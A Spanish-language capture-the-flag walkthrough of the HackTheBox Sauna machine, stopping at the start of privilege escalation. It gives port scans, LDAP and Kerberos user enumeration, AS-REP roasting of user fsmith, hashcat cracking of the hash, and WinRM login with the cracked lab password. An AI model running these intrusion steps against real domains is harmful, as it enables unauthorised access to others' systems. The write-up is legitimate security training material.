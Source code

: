 `nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.175 -oG allPorts`
`nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49697 -sCV 10.10.10.175 -oN targeted`
 ``` python
53/tcp    open  domain       
80/tcp    open  http         
|_http-server-header: Microso
|_http-title: Egotistical Ban
| http-methods: 
|_  Potentially risky methods
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc        
139/tcp   open  netbios-ssn  
389/tcp   open  ldap         
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         
3269/tcp  open  tcpwrapped
5985/tcp  open  http         
|_http-server-header: Microso
|_http-title: Not Found
9389/tcp  open  mc-nmf       
49668/tcp open  msrpc        
49673/tcp open  ncacn_http   
49674/tcp open  msrpc        
49677/tcp open  msrpc        
49689/tcp open  msrpc        
49697/tcp open  msrpc        
 ```


#### 445
`netexec smb $IP`
Añadimos el dominio de la maquina a `/etc/host`
`netexec smb $IP --shares`
`smbmap -H $IP`
`smbclient -L $IP -N`


#### 135
`rpcclient -U "" $IP -N`
	`enumdomusers` No nos deja acceder


#### 389
En hacktricks buscamos por el puerto y ahí buscamos por `ldapsearch` para ver diferentes formas de enumerar el servicio

`ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts`

```
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

```

`ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' | grep "dn: CN="`

```ad-hint
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Para validar si existe nos crearemos un `.txt`, con diferentes combinaciones del usuario

Enumeraríamos a través de kerberos con la herramienta [[KERBRUTE]]
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`
```ad-hint
[+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
```

Si nos hubiese aparecido un hash es que es vulnerable a `AS_REP ROAST`

Tambien podemos enumerar usuariios con:
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Vamos a comprobrobar si se han reutilizado credenciales, 
`netexec smb $IP -u 'hsmith' -p 'hsmith'` No hay reutilización de credenciales


#### 53
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL ns`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL mx`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL axfr`

#### 80

Encontramos en `About Us` nombres de usuarios que añadiremos con el mismo formato que el encontrado anteriormente al documento de `users.txt`
```
hsmith
fsmith
scoins
hbear
btayler
skerb
```

Volvemos a usar [[KERBRUTE]] para identificar usuarios los usuarios encontrados:
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`

También lo podemos hacer con
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Y nos mostraría que el usuario `fsmith` no cuenta con preautenticacion de kerberos y nos muestra el hash del Ticket Granting Ticket. Siendo asi vulnerable a `ASREPRoasting`

```ad-hint
ASREPRoasting en el usuario fsmith
```

Para crakeralo por fuerza bruta lo guardamos en un fichero llamado hash
Esta vez vamos ha crackearlo con la GPU directamente desde la máquina Windows, nos conectaremos por ssh a nuestra maquina HOST y navegaremos al directorio donde esta instalado el [[HASHCAT]], en nuestra maquina atacante levantamos un servicio SMB
`impacket-smbserver smbFolder $(pwd) -smb2support`

Y desde la máquina host obtenemos el archivo con el hash
`copy \\192.168.1.21\smbFolder\hash hash`

Ahora ejecutaremos [[HASHCAT]]
`hashcat.exe -m 18200 -a 0 hash rockyou.txt`

Nos muestra la contraseña del usuario `fsmith`
```ad-hint
fsmith::Thestrokes23
```

Comprobamos que la contraseña pertenezca al usuario 
`netexec smb $IP -u 'fsmith' -p 'Thestrokes23'`

Como el puerto `5985` esta abierto que corresponde al servicio de administración remota de Windows, así que vamos a intentar conectarnos con [[CRACKMAPEXEC-NETEXEC]]
`netexec winrm $IP -u 'fsmith' -p 'Thestrokes23'`

Nos aparece un `Pwn3d!` queriendo decir que este usuario pertenece al grupo de administración remota de la maquina pudiendo así acceder con [[EVIL_WINRM]]
`evil-winrm -i $IP -u 'fsmith' -p 'Thestrokes23'`

Obtenemos una consola interactiva


### Escalada de privilegios
`whoami /priv`
`whoami /all`

Ver que mas usuarios pertenecen al grupo de `REMOTE MANAGEMENT`
`net localgroup "Remote Management Users"`

Encontramos al usuario `svc_loanmgr`

Enumerar las credenciales del usuario:
``
